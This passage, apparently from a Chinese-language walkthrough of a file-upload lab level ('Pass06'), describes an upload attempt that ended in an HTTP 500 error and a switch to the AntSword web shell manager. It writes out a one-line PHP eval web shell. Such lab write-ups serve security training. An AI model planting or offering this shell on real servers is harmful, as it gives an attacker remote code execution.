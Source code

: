 


+ 上传之后由于是<code>nts</code>版本的<code>php</code>版本，所以报了<code>http 500</code>服务器内部错误

![Pass06_3](./img/Pass06_3.PNG)



+ 换一种方法，用蚁剑连接

  + 先定义脚本<code>SixSecondMethod</code>

  ~~~ shell
  <?php @eval($_POST['SixSecond']); ?>
  ~~~

  ![Pass06_4](./img/Pass06_4.PNG)
